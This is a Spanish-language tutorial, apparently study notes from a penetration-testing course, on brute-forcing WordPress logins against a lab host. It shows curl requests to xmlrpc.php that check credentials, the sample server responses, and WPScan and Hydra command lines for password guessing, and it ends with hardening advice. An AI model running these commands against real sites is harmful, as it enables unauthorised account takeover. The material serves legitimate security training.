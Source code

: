 ### **Login y Fuerza Bruta en WordPress**

#### **Ataque de Fuerza Bruta**

Con una lista de usuarios válidos, es posible realizar un ataque de fuerza bruta para intentar acceder al backend de WordPress. Este ataque puede ejecutarse de dos maneras:

1. **Página de inicio de sesión:** A través de la URL estándar `/wp-login.php`.
2. **Endpoint `xmlrpc.php`:** Permite enviar múltiples solicitudes con credenciales de usuario directamente.

---

#### **Autenticación a través de `xmlrpc.php`**

El endpoint `xmlrpc.php` se utiliza para integrar WordPress con herramientas externas, pero también puede ser explotado para ataques de fuerza bruta.

##### **Solicitud con Credenciales Válidas**

El siguiente comando `cURL` verifica si las credenciales son correctas:

```bash
curl -X POST -d "<methodCall><methodName>wp.getUsersBlogs</methodName><params><param><value>admin</value></param><param><value>CORRECT-PASSWORD</value></param></params></methodCall>" http://blog.inlanefreight.com/xmlrpc.php
```

**Respuesta esperada:**

```xml
<?xml version="1.0" encoding="UTF-8"?>
<methodResponse>
  <params>
    <param>
      <value>
        <array><data>
          <value><struct>
            <member><name>isAdmin</name><value><boolean>1</boolean></value></member>
            <member><name>url</name><value><string>http://blog.inlanefreight.com/</string></value></member>
            <member><name>blogid</name><value><string>1</string></value></member>
            <member><name>blogName</name><value><string>Inlanefreight</string></value></member>
            <member><name>xmlrpc</name><value><string>http://blog.inlanefreight.com/xmlrpc.php</string></value></member>
          </struct></value>
        </data></array>
      </value>
    </param>
  </params>
</methodResponse>
```

Esta respuesta confirma que las credenciales son válidas y que el usuario tiene acceso administrativo (`isAdmin` con valor `1`).

---

##### **Solicitud con Credenciales Inválidas**

Si las credenciales no son válidas, la respuesta será un error `403`:

```bash
curl -X POST -d "<methodCall><methodName>wp.getUsersBlogs</methodName><params><param><value>admin</value></param><param><value>INCORRECT-PASSWORD</value></param></params></methodCall>" http://blog.inlanefreight.com/xmlrpc.php
```

**Respuesta esperada:**

```xml
<?xml version="1.0" encoding="UTF-8"?>
<methodResponse>
  <fault>
    <value>
      <struct>
        <member>
          <name>faultCode</name>
          <value><int>403</int></value>
        </member>
        <member>
          <name>faultString</name>
          <value><string>Incorrect username or password.</string></value>
        </member>
      </struct>
    </value>
  </fault>
</methodResponse>
```

---

#### **Importancia de Métodos Manuales**

Antes de usar herramientas automatizadas, es crucial comprender los métodos manuales, ya que:

- Ayudan a identificar errores en herramientas automatizadas.
- Proporcionan una mejor comprensión de cómo interactúan las solicitudes HTTP con el servidor.
- Permiten detectar configuraciones personalizadas que podrían bloquear herramientas estándar.

---

#### **Automatización de Ataques de Fuerza Bruta**

Para agilizar el proceso, se pueden usar herramientas como:

- **WPScan:**
    
    ```bash
    wpscan --url http://blog.inlanefreight.com --passwords passwords.txt --usernames admin
    ```
    
- **Hydra:**
    
    ```bash
    hydra -l admin -P passwords.txt http://blog.inlanefreight.com/xmlrpc.php http-post-form "<methodCall><methodName>wp.getUsersBlogs</methodName><params><param><value>^USER^</value></param><param><value>^PASS^</value></param></params></methodCall>"
    ```
    
- **Burp Suite:** Para crear ataques personalizados y realizar pruebas más detalladas.

---

#### **Mejoras de Seguridad para Evitar Ataques**

1. **Deshabilitar `xmlrpc.php`:**
    
    - Si no es necesario, deshabilitar este endpoint mediante `.htaccess`:
        
        ```plaintext
        <Files xmlrpc.php>
          Order Allow,Deny
          Deny from all
        </Files>
        ```
        
2. **Implementar 2FA (Autenticación de Doble Factor):**
    
    - Requiere un segundo nivel de autenticación (por ejemplo, Google Authenticator).
3. **Usar Captchas en la Página de Inicio de Sesión:**
    
    - Implementar captchas para dificultar ataques automatizados.
4. **Limitar Intentos de Inicio de Sesión:**
    
    - Utilizar plugins como **Limit Login Attempts Reloaded**.
5. **Monitorear Logs del Servidor:**
    
    - Revisar intentos de acceso fallidos en los logs para identificar ataques en curso.
6. **Configurar Contraseñas Seguras:**
    
    - Requerir contraseñas largas y complejas para todos los usuarios.

---

#### **Conclusión**

Los ataques de fuerza bruta son una amenaza seria para los sitios WordPress, especialmente cuando `xmlrpc.php` está habilitado. La combinación de buenas prácticas de seguridad y la configuración adecuada del servidor puede mitigar significativamente este riesgo.